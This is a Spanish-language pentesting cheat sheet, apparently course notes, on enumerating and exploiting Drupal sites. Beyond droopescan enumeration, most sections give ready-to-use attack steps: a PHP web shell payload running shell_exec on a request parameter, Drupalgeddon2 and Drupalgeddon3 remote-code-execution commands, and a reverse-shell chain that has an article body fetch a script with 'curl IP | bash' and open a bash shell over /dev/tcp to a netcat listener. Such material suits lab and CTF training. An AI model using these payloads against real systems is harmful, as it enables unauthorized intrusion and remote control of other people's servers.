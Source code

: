 # Drupal 

Tags: #Drupal #CMS #Ñ 

## Enumeración de gestores de contenido (CMS) – Drupal

Drupal ofrece un alto grado de personalización y escalabilidad, lo que lo convierte en una opción popular para sitios web complejos y grandes. Drupal se utiliza en una amplia gama de sitios web, desde blogs personales hasta sitios web gubernamentales y empresariales. Es altamente flexible y cuenta con una amplia variedad de módulos y herramientas que permiten a los usuarios personalizar su sitio web para satisfacer sus necesidades específicas.

Una de las herramientas que veremos en esta clase para enumerar un Drupal es la herramienta **droopescan**. Droopescan es una herramienta de escaneo de seguridad especializada en la identificación de versiones de Drupal y sus módulos, y en la detección de vulnerabilidades conocidas en ellos. La herramienta realiza un escaneo exhaustivo del sitio web para encontrar versiones de Drupal instaladas, módulos activos y vulnerabilidades conocidas, lo que ayuda a los administradores de sistemas y desarrolladores a identificar y solucionar los problemas de seguridad en sus sitios web.

Con esta herramienta, se pueden llevar a cabo análisis de seguridad en sitios web basados en Drupal, lo que puede ayudar a prevenir posibles ataques y problemas de seguridad en el futuro.

* [Drupal](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2018-7600)

## Rutas típicas de Drupal en la web 

```bash 
/CHANGELOG.txt         # Muestra la versión e info de Drupal 
```

## Drupal Enumeración 

Esta herramienta además de enumerar un servidor Drupal

-   [Droopescan](https://github.com/SamJoan/droopescan)

```bash 
❯ droopescan scan drupal --url https://IP/
```

## Exploit PHP

```bash 
❯ Drupal 7.x Module Services - RCE

# Modificar los siguientes parametros dentro del script de PHP
1. URL
2. Verificar la ruta de 'rest' o 'rest_endpoint' en 'endpoint_path'
3. Colocar el payload de la siguiente manera en 'data' y cambiar el nombre al archivo de subida 'pwned.php':

	'<?php echo "<pre>" . shell_exec($_REQUEST[\'cmd\']) . "</pre>"; ' 
 
❯ php drupal_exploit.php             # Ejecutar el exploit 
❯ http://IP/pwned.php?cmd=whoami     # Ejecutar comandos en la web y generar una revershell 

Notas:
	1. Terminar el comando de PHP '?>'
```

## Drupalgeddon2 - RCE 

```bash 
# Funciona para las versiones 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x < 7.58 / < 6.x

# Instalar 
❯ gem install highline 

❯ ruby drupalgeddon2.rb http://IP     # Ejecutar el exploit para crear una shell 
```

## Drupalgeddon3 - RCE

```bash 
❯ git clone https://github.com/oways/SA-CORE-2018-004/tree/master      # Clonar el repositorio 

❯ python3 drupalgeddon3.py http://IP "SESSg135=gq34tw34g" 1 "whoami"

	# SESS = Es la 'session_name' y el 'session_id' obtenidas del drupalgeddon2 o al iniciar sessión con la cuenta del admin
	# 1 = Es un numero de nodo existente dentro de la web, este se obtiene dentro de la web en 'Content > Find Content' y al colocar el cursor encima de algun recurso mostrará un numero 


Nota:
	1. El script te ayudará a ejecutar comandos, por lo que se puede crear una revershell
```

## Obtener una Shell en Drupal 

```bash 
1. Dentro del CMS, crear un articulo y en el cuerpo escribir codigo php y para ejecutar el código se debe dar click en 'Preview'. 

	<?php 
		system("curl IP | bash ");


2. Se debe compartir y crear el archivo del recurso en la maquina Kali de la siguiente manera:
❯ python3 -m http.server 80

❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/IP/443 0>&1

❯ nc -nlvp 443    # Escuchar en el puerto para recibir la revershell 


Nota:
	1. Si en el articulo no sale la opción de 'PHP Code' se puede activar en 'Modules > Filter PHP' para que interprete el codigo de la revershell. 
	2. Terminar el comando de PHP '?>'
```